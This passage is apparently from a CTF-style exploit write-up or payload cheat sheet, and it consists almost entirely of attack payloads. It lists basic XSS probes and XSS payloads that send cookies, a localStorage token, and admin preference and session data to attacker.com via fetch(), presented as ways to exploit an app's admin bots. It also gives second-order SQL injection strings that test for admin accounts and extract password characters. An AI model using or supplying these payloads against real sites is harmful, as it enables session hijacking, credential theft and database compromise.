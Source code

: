 Common XSS payloads:
```
<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
<svg onload="fetch('https://attacker.com?cookie='+document.cookie)">
```

### Admin Bot Exploitation

To exploit the admin bots:
```
<!-- For message bot -->
<script>
fetch('https://attacker.com/steal?token=' + localStorage.getItem('token'))
</script>

<!-- For headless browser -->
<img src=x onerror="
const data = {
  token: localStorage.token,
  prefs: localStorage.adminPreferences,
  session: localStorage.sessionStarted
};
fetch('https://attacker.com/admin-data', {
  method: 'POST',
  body: JSON.stringify(data)
})">
```

### Second-Order SQL Injection Payloads

For profile location (starts as normal text, then injects SQL):
```
New York" AND (SELECT CASE WHEN (SELECT COUNT(*) FROM users WHERE role="admin")>0 THEN 1 ELSE (SELECT 1/0) END)=1 --

London" UNION SELECT UNICODE(SUBSTR((SELECT password FROM users WHERE id=1),1,1)) --
``` 